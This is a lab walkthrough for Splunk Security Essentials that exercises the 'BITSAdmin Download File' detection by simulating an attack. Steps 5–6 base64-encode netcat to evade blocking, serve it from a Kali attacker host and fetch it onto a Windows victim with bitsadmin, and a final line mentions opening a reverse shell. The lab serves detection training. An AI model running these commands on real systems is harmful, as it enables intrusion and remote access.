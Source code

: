 ### Splunk Security Essentials
1. Let's get familiar with **Splunk Security Essentials**. Explore security use cases and discover security content to start address threats and challenges.
But before you go, make sure you have **Splunk Common Information Model (CIM)** app installed. 

Apps > Find More Apps 
![](attachments/2.5-CIM_install.png)

---
2. Install Splunk Security Essentials

Apps > Find More Apps
![](attachments/2.5-SSE_install.png)

3. Open Splunk Security Essentials
Click on Find Content > Security Detection Basics > Security Monitoring

![](attachments/2.5-SSE_open.png)


![](attachments/2.5-SSE_open2.png)  



4. Find **BITSAdmin Download File** and open it

![](attachments/2.5-SSE_open_bitsadmin.png)

Here you get a description about the query which identifies Microsoft Background Intelligent Transfer Service utility bitsadmin.exe using the transfer parameter to download a remote object (for example a malware stager, or other payload).  



![](attachments/2.5-SSE_bitsadmin1.png)  


 
And you can check the query (or modify - not recommended at first time) and run it to get some interesting result.

![](attachments/2.5-SSE_bitsadmin2.png)  


If you see similar (red exclamation marks) just click "Add Macro" one by one.
![](attachments/2.5-SSE_bitsadmin_error.png)  


5. Lets go to the Kali, login via ssh, and prepare the attacker host. We need a webserver to host our malware/payload or "only" a reverse shell tool. To do this, we should install a python based http server (or similar).

```bash
pip install rangehttpserver
```

Create a directory to store our tools for the upcomings.
```bash
mkdir attack
cd attack
```

We would like to use the netcat to open a a reverse shell to our attacker machine, so our goal is to transfer the netcat to the victim machine. Copy the netcat utility (windows version) to this newly created folder.
```bash
cp /usr/share/windows-resources/binaries/nc.exe .
```

To avoid blocking our malicious transfer encode(base64) and rename the infamous/famous netcat binary.

```bash
base64 nc.exe > nc64
```

Now we are ready to host our tool by our new http server, so lets start it from the attack directory where our nc64 is. 

```bash
python -m RangeHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

6. Switch to the victim machine (Win10, ip: 198.18.133.10), and start downloading the prepared nc64 by bitsadmin (mostly because if we managed to get into a system by an exploitation most of the times we only have a shell for the first steps)

```bash
bitsadmin /transfer n http://198.18.24.100:8080/nc64 c:\temp\myshell64
```


7. Lets check the tracks of previous operation by the Splunk Security Essentials bitsadmin donwloads detection query. Do the search, examine the details and click on the data to get more information about the event. 
![](attachments/2.5-SSE_bitsadmin3.png)


Optional: now we have a base64 encoded netcat on the wictim host, we can decode, rename and use it to open a reverse shell to our kali.
